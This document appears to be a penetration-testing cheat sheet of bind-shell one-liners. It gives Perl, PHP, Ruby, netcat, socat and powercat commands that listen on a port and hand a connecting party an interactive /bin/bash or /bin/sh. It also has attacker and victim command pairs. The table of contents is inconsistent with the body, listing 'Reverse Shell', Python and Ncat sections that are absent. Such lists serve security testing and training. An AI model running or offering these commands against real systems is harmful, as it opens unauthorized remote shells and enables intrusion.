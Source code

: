 # Bind Shell

## Summary

* [Reverse Shell](#reverse-shell)
  * [Perl](#perl)
  * [Python](#python)
  * [PHP](#php)
  * [Ruby](#ruby)
  * [Netcat Traditional](#netcat-traditional)
  * [Netcat OpenBsd](#netcat-openbsd)
  * [Ncat](#ncat)
  * [Socat](#socat)
  * [Powershell](#powershell)

## Perl

```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

## PHP

```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

## Ruby

```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Netcat Traditional

```powershell
nc -nlvp 51337 -e /bin/bash
```

## Netcat OpenBsd

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

## Socat

```powershell
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Powershell

```powershell
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
